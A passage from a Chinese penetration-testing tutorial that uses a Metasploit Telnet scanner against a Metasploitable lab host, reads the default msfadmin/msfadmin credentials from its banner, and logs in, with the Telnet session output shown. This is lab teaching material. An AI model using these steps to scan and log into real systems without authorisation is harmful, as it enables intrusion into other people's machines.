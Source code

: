 Telnet 服务是一种“客户端/服务器”架构，在整个 Telnet 运行的流程架构中一定包括两个组件，分别是 Telnet 服务器和 Telnet 客户端。由于 Telnet 是使用明文的方式传输数据的，所以并不安全。这里就可以使用 Metasplolit 中的一个模块，可以破解出 Telnet 服务的用户名和密码。下面将介绍渗透攻击 Telnet 服务。

（1）启动 MSF 终端。执行命令如下所示：

```
root@kali:~# msfconsole
msf> 
```

（2）使用 telnet_version 模块，并查看可配置的选项参数。执行命令如下所示：

![182-01](img/00295.jpg)

从输出的信息中，可以看到有四个必须配置选项。其中三个选项已经配置，现在配置 RHOSTS 选项。

（3）配置 RHOSTS 选项，并启动扫描。执行命令如下所示：

![182-02](img/00296.jpg)

从以上输出的信息，仅看到一堆文本信息。但是在这些信息中可以看到，显示了 Telnet 的登录认证信息 Login with msfadmin/msfadmin to get started。从这条信息中，可以得知目标主机 Telnet 服务的用户名和密码都为 msfadmin。此时可以尝试登录。

（4）登录目标主机的 Telnet 服务。执行命令如下所示：

```
root@kali:~# telnet -l msfadmin 192.168.6.105
Trying 192.168.6.105…
Connected to 192.168.6.105.
Escape character is '^]'.
Password:                                 #输入密码 msfadmin
Last login: Tue Jul 8 06:32:46 EDT 2014 on tty1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
msfadmin@metasploitable:~$ 
```
